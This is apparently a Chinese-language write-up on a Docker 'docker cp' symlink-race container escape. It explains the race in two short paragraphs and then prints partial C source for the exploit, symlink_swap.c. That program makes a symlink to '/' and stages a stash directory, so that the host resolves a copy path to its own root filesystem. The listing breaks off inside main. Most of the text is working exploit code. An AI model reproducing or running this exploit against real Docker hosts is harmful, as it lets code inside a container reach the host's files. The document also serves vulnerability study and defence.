   
  
symlink_swap.c主要任务是在容器内创建指向根目录的“/”的符号链接，并不断地交换符号链接（由命令行参数传入，如/totally_safe_path）与一个正常目录（如/totally_safe_path-stashed）的名字。  
这样一来，Docker 在宿主机上执行docker cp时，就会遇到4种不同的场景，如果首先检测到/totally_safe_path-stashed是一个正常目录，但在后面执行复制操作时/totally_safe_path却变成了一个符号链接，那么docker将在宿主机上解析这个符号链接。  
  
  
symlink_swap.c 的内容如下：  
```
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdlib.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/syscall.h>
#include <unistd.h>
 
#define usage() \
    do { printf("usage: symlink_swap <symlink>\n"); exit(1); } while(0)
 
#define bail(msg) \
    do { perror("symlink_swap: " msg); exit(1); } while (0)
 
/* No glibc wrapper for this, so wrap it ourselves. */
#define RENAME_EXCHANGE (1 << 1)
/*int renameat2(int olddirfd, const char *oldpath,
              int newdirfd, const char *newpath, int flags)
{
    return syscall(__NR_renameat2, olddirfd, oldpath, newdirfd, newpath, flags);
}*/
 
/* usage: symlink_swap <symlink> */
int main(int argc, char **argv)
{
    if (argc != 2)
        usage();
 
    char *symlink_path = argv[1];
    char *stash_path = NULL;
    if (asprintf(&stash_path, "%s-stashed", symlink_path) < 0)
        bail("create stash_path");
 
    /* Create a dummy file at symlink_path. */
    struct stat sb = {0};
    if (!lstat(symlink_path, &sb)) {
        int err;
        if (sb.st_mode & S_IFDIR)
            err = rmdir(symlink_path);
        else
            err = unlink(symlink_path);
        if (err < 0)
            bail("unlink symlink_path");
    }
 
    /*
     * Now create a symlink to "/" (which will resolve to the host's root if we
     * win the race) and a dummy directory at stash_path for us to swap with.
     * We use a directory to remove the possibility of ENOTDIR which reduces
     * the chance of us winning.
     */
    if (symlink("/", symlink_path) < 0)
        bail("create symlink_path");
    if (mkdir(stash_path, 0755) < 0)
        bail("mkdir stash_path");
```